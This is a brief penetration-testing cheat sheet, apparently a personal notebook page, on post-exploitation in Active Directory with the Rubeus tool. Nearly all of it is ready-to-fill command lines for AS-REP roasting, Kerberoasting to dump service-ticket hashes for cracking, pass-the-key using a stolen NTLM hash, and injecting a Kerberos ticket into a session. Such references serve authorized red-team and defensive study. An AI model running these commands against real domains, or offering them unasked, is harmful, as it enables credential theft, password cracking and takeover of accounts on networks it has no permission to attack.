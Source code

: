 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#post-exploitation #credential-dumping #ticket-dumping #active-directory
# Source

- https://github.com/GhostPack/Rubeus

Review the opsec notes before compiling the program in visual studio. 

## ASREProasting:

chek for users in the current domain:

- Rubeus.exe asreproast  /format:<AS_REP_responses_format [hashcat | john]> /outfile:<output_hashes_file>

## Kerberoasting:

- Rubeus.exe kerberoast /outfile:<output_TGSs_file>

- Rubeus.exe kerberoast /outfile:hashes.txt [/spn:"SID-VALUE"] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] 

## Pass the key (PTK):

- .\Rubeus.exe asktgt /domain:<domain_name> /user:<user_name> /rc4:<ntlm_hash> /ptt


## Using the ticket on a Windows target: 

- Rubeus.exe ptt /ticket:<ticket_kirbi_file>


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
